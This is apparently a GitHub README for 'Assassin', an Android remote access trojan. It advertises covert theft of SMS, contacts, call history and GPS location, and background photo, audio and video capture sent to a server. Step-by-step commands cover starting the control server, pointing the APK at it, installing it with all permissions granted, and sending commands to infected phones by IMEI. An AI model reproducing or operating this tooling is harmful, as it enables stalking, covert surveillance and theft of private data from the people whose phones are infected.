 # Assassin one of the  best Android RAT 

- beta 1.0.0
- adapter android Lollipop-Pie
- commit issues to me 
## Construction
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/1P2KVt)
## Features
- get Sms_List
- send Sms to destinationAddress
- get Calling_History
- get GPS
- get Contacts_List
---- 
#### something that u can do in background
- call someone  
- take a photo then send to server 
- record audio then send to server
- record video then send to server
</br>of course the duration decided by yourself

## Basement/Environment
- Gradle 
- JDK1.8
- AndroidSdk 
- node.js
- npm
## Usage
#### 1.Start up The Server
```
1. git clone git@github.com:honglvt/TalentRAT.git / or https
2. cd the project path
3. cd Server
4. npm install
5. npm start
```
now you can see the terminal show ASSASSIN
----
#### 2.Build the Android apk 
1. confrim that you have prepare the env for building the app
2. connect the android device  to ur PC
3. enable the develop mode on ur android device
4. edit the socket address with</br>
```
use ifconfig to get server IP Address
cd project
vim ./gradle.properties
edit the SERVER_ADDRESS that you got befroe
```
5. on some rom you should also  enable the adb to install the apk
6. if you are not a developer you can install the apk yourself
- post the .apk to your device such as email or other way
- then install the .apk on folder
----
#### 3.Intasll apk 
```
1. cd the project path 
2. ./assembleApk.sh debug    you can choose the arg debug/release
3. ./installNewestApk.sh 
4. open the apk on ur device
5. the most important is that  you should grant all of the permissions on the device
```
## Instruction to client
```
1. cd /Server
2. which node
3. vim ./assassin.js  replace #! /usr/local/bin/node with your own position
4. chmod 777 ./assassin.js
5. ./assassin.js -h
```
```
$ ./assassin.js -h                                                 ‹ruby-2.6.0›
Usage: assassin [options]

Options:
  -V, --version             output the version number
  -a,--assassin <assassin>  select a command post to the clients if you choose the shadow you should input the cmd -t to choose a type between pic/audio/video [sms,contacts,call,gps,shadow] (default: "sms")
  -C,--Clients              show every client info
  -d,--address <address>    input a phone num who you want to send a msg
  -m,--msg <msg>            you should write the msg content, if your command is sms
  -t,--type <type>          select a type between pic/audio/video and you should input the -l to choose the camera lens [pic,audio,video]
  -c,--client <client>      select a client to post the command
  -l,--lens <lens>          which camera lens that you want to open [0,1]
  -h, --help                output usage information
```
### exemples
| cmd        | -a     |
| ---------- | :-----------:  | 
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video     | 
|  example   | ‘’./assassin.js -a sms‘’  ‘’ ./assassin.js -a shadow -t pic ‘’   | 
|  result   | ERROR:you should input a type with -c to choose a client that you want to send cmd    | 
----

| cmd        | -C     |
| ---------- | :-----------:  | 
| description| show every client info    | 
|  example   | ‘’./assassin.js -C ‘’   | 
|  result   | {IMEI:9525238415950202,brand:Nokia,model:CAL-20,version:9.0}   | 
----

| cmd        | -c     |
| ---------- | :-----------:  | 
| description| select a client with its IMEI to post the command    | 
|  example   | ‘’./assassin.js -a sms -c  9525238415950202 ‘’   | 
|  result   | { command: 'send_sms_list', IMEI: '184859203' }  | 
----




## Commands

# Screen Shot
### server
![server](https://cdn-std.dprcdn.net/files/acc_737120/tKCGxc)
---
### assembleApk
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/BtN0Eb)
---
### installApk
![installApk](https://cdn-std.dprcdn.net/files/acc_737120/qzZ6yC)
---
### client connect to server
![connect](https://cdn-std.dprcdn.net/files/acc_737120/7AfwLH)
---
### executeCmd
![executeCmd](https://cdn-std.dprcdn.net/files/acc_737120/ot6gOq)

